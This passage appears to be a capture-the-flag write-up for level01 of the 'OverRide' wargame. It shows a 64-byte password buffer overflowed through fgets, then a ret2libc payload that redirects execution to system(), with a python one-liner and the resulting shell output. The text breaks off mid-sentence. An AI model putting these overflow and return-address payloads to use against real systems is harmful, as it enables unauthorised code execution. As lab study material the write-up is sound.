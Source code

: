 # Level 01

The program asks for a username and a password.
But this is irrelevent because either way we are doing nothing with it.
However we need the good username to be able to access the password input.
The password buffer is 64 char long, but `fgets()` reads 100 chars, here is our overflow.
We see in the source code that the function that checks the user needs the `dat_wil` username.

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
I have no clue (yet)
nope, incorrect password...
```

Nice, now lets try to overflow it.

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope, incorrect password...

Segmentation fault (core dumped)
level01@OverRide:~$ dmesg | tail -n1
[22893.142169] level01[7344]: segfault at 41414141 ip 0000000041414141 sp 00000000ffffd650 error 14
```

We see that we indeed have a segfault. Now we are going to do a ret2libc.
Basically we will change the return address to the one of `system()` to be able to launch a shell.

Lets try. `"\xd0\xae\xe6\xf7"` is the address of `system()`

```bash
level01@OverRide:~$ ./level01 < <(python -c 'print("dat_wil\n" + "*" * 80 + "\xd0\xae\xe6\xf7")')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

sh: 1: %���: not found
Segmentation fault (core dumped)
```

Promising! We have this error: `sh: 1: %���: not found` that indicates that surely got into `system()`.
Lets verify with 